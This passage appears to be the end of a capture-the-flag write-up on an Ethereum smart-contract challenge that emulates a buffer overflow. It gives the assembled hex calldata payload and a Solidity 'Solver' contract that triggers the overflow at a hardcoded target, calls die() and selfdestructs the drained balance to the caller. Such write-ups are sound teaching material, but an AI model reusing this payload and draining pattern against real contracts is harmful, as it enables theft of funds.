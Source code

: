     
    
    0000000000000000000000000000000000000000000000000000000000000344
    0000000000000000000000003331B3Ef4F70Ed428b7978B41DAB353Ca610D938
    0000000000000000000000000000000000000000000000000000000000000020

Putting it all together, our payload looks like this:

    
    
    7909947a
    0000000000000000000000000000000000000000000000000000000000000000
    0000000000000000000000000000000000000000000000000000000000000000
    0000000000000000000000000000000000000000000000000000000000000000
    0000000000000000000000000000000000000000000000000000000000000000
    0000000000000000000000000000000000000000000000000000000000090140
    00000000000000000000000000000000000000000000000000000000000002ea
    0000000000000000000000000000000000000000000000000000000000090000
    0000000000000000000000000000000000000000000000000000000000000120
    0000000000000000000000000000000000000000000000000000000000000140
    00000000000000000000000000000000000000000000000000000000000000ff
    0000000000000000000000000000000000000000000000000000000000000344
    0000000000000000000000003331B3Ef4F70Ed428b7978B41DAB353Ca610D938
    0000000000000000000000000000000000000000000000000000000000000020

All that's left is to write a contract to trigger the overflow and [claim the
funds](https://etherscan.io/tx/0xd1a83dd897ead5ae4a62a736d41a43475e3c7ccefbd45c777ce8ec539405d7d4).

    
    
    pragma solidity ^0.5.0;
    
    contract Target {
        function get()public returns (address) ;
        function set(uint a) public;
        function die() public;
    }
    
    contract Solver {
        constructor(bytes memory data) public payable {
            (bool result, ) = address(0xEfa51BC7AaFE33e6f0E4E44d19Eab7595F4Cca87).call(data);
            require(result);
            Target(0xEfa51BC7AaFE33e6f0E4E44d19Eab7595F4Cca87).die();
            require(address(this).balance > 0);
            selfdestruct(msg.sender);
        }
    }

## Conclusion

This CTF simulated a program with a classic buffer overflow vulnerability and
was significantly more challenging than the previous. Kudos to the creator,
[Nathan Peercy](https://medium.com/@nathan.peercy), for accurately recreating
the setup in the EVM.

[ ![Hiding in Plain Sight](/content/images/size/w600/2021/11/161381622_xl.jpg)
](/hiding-in-plain-sight/)
